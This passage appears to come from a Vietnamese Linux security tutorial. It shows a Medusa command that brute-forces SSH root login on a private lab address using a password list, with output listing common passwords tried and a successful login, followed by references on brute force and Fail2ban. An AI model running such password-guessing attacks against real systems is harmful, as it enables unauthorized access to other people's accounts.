 ### Trường hợp Medusa quét thành công

```
[root@localhost ~]# medusa -h 172.16.2.194 -u root -P password.txt -M ssh
Medusa v2.1.1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (1 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: password (2 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456789 (3 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345678 (4 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: admin@123 (5 of 235 complete)
ACCOUNT FOUND: [ssh] Host: 172.16.2.194 User: root Password: ********* [SUCCESS]
```

## Tài liệu tham khảo

https://news.cloud365.vn/brute-force-password-su-dung-medusa/

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Brute%20Force/Brute%20Force%20Attack.md

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Fail2ban_with_CentOS7.md
